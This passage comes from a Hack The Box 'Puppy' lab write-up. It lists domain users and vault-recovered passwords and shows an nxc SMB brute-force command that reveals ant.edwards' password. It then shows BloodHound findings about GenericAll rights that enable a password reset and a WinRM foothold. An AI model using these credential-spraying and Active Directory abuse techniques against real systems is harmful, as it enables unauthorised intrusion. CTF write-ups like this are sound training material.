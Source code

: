 The domain users were then added to the `domain_users.txt` file and the passwords from the Vault to the `passwords.txt` file.

```
fcoomans@kali:~/htb/puppy$ cat domain_users.txt
Administrator
ant.edwards
adam.silver
jamie.williams
steph.cooper
steph.cooper_adm

fcoomans@kali:~/htb/puppy$ cat passwords.txt
KingofAkron2025!
HJKL2025!
Antman2025!
JamieLove2025!
ILY2025!
Steve2025!
```

### 💰 Post Exploitation

I used `nxc` to brute-force the domain users using the vault passwords.  The brute-force revealed that Ant Edwards' password was `Antman2025!`.

```
fcoomans@kali:~/htb/puppy$ nxc smb dc.puppy.htb -u domain_users.txt -p passwords.txt |grep +
SMB                      10.10.11.70     445    DC               [+] PUPPY.HTB\ant.edwards:Antman2025!
```

## 🐜 From Ant to Adam

### 🔎 Recon

BloodHound showed that Ant Edwards had `GenericAll` rights to the Adam Silver user account.  This allowed Ant to change Adam's password.  Adam was a member of the `Remote Management Users` group, which would give me a foothold via WinRM on the server.

![](images/Pasted%20image%2020250717143210.png)

